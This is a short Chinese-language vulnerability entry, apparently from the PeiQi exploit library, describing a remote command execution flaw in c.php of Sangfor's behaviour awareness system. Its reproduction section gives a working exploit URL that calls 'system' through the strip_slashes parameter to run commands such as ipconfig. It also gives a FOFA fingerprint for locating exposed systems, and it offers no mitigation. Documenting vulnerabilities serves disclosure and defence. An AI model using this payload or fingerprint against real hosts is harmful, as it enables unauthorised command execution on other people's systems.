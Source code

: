 ```yaml
---
title: 深信服 行为感知系统 c.php 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


# 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 行为感知系统

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"	

## 漏洞复现

登录页面如下

![image-20210531194638650](/img/20210924020304744084.png)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531194727866](/img/20210924020306885059.png)